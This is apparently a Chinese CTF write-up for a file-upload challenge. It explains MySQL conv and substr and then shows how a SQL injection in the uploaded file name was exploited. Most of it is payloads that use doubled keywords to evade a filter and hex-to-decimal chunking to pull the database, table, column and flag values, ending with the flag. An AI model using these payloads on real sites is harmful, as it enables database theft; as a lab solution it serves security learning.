 # Upload

## conv

> conv(n,from_base,to_base),把一个数字从某个进制转换为另一个进制

> conv(5,16,2),把5从16进制转换为2进制

## substr

> 从一个内容中,按照指定条件,「截取」一个字符串.这个内容可以是数值或字符串.有2种语法模式

> substr(obj,start,length)

> substr(obj FROM start FOR length)

## 思路分析

> 登录进来之后是这样的一个页面，注册，登陆进去，根据题目名字判断出是文件上传题目。做了测试，只能够上传jpg文件，想要尝试php4，php5，php文件后缀都是不可以的。然后就在考虑是否是文件后缀截断上传，但是抓包截取内容之后并没有返回文件上传到哪里了。没有思路了，最后发现是文件名存在sql注入漏洞。

> 把文件名改成a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg,这里使用substr的原因是当数字过长的时候会变成科学计数法，所以需要分批次来获取内容,使用CONV是因为题目过滤了回显有字母的情况，如果出现了字母则后面的内容就不显示，所以需要将16进制的内容转成10进制,再转为字符串。或者可以使用两次hex绕过也可以

## payload

> 查询数据库名

```
a'+(selselectect conv(substr(hex(database()),1,12),16,10))+'.jpg
a'+(selselectect conv(substr(hex(database()),1,12),16,10))+'.jpg
```
> 查询表名:

```
a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit 1,1)),1,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit 1,1)),13,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit 1,1)),25,12),16,10))+'.jpg
```

> 查询列名

```
a'+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = 'hello_flag_is_here' limit 0,1)),1,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = 'hello_flag_is_here' limit 0,1)),13,12),16,10))+'.jpg
```

> 查询字段内容

```
a'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),25,12),16,10))+'.jpg
```

## flag

> !!_@m_Th.e_F!lag